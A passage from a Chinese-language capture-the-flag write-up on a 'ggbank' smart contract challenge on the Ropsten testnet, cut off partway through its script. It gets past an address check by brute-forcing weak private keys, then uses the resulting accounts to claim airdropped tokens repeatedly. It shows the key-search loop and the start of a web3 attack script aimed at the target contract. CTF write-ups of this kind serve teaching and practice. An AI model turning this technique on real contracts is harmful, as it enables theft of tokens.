 checkfriend只接受地址中带有7d7ec的地址交易，光是这几个字母出现的概率就只有`1/36*1/36*1/36*1/36*1/36`这个几率在每次随机生成50个合约上计算的话，概率就太小了。

必须要找新的办法来解决才行。

# python脚本解决方案 #

既然在合约上没办法，那么我直接换用python写脚本来解决。

这个挑战最大的问题就在于checkfriend这里，那么我们直接换一种思路，如果我们去爆破私钥去恢复地址，是不是更有效一点儿？

其实爆破的方式非常多，但有的恢复特别慢，也不知道瓶颈在哪，在换了几种方式之后呢，我终于找到了一个特别快的恢复方式。

```
from ethereum.utils import privtoaddr, encode_hex

for i in range(1000000,100000000):
        private_key = "%064d" % i
        address = "0x" + encode_hex(privtoaddr(private_key))
```

我们拿到了地址之后就简单了，首先先转0.01eth给它，然后用私钥发起交易，获得空投、转账回来。

需要注意的是，转账之后需要先等到转账这个交易打包成功，之后才能继续下一步交易，需要多设置一步等待。

有个更快的方案是，先跑出200个地址，然后再批量转账，最后直接跑起来，不过想了一下感觉其实差不太多，因为整个脚本跑下来也就不到半小时，速度还是很可观的。

脚本如下
```
import ecdsa
import sha3
from binascii import hexlify, unhexlify
from ethereum.utils import privtoaddr, encode_hex
from web3 import Web3
import os
import traceback
import time

my_ipc = Web3.HTTPProvider("https://ropsten.infura.io/v3/6528deebaeba45f8a0d005b570bef47d")
assert my_ipc.isConnected()
w3 = Web3(my_ipc)

target = "0x7caa18D765e5B4c3BF0831137923841FE3e7258a"

ggbank = [
    {
        "constant": True,
        "inputs": [],
        "name": "name",
        "outputs": [
            {
                "name": "",
                "type": "string"
            }
        ],
        "payable": False,
        "stateMutability": "view",
        "type": "function"
    },
    {
        "constant": True,
        "inputs": [],
        "name": "totalSupply",
        "outputs": [
            {
                "name": "",
                "type": "uint256"
```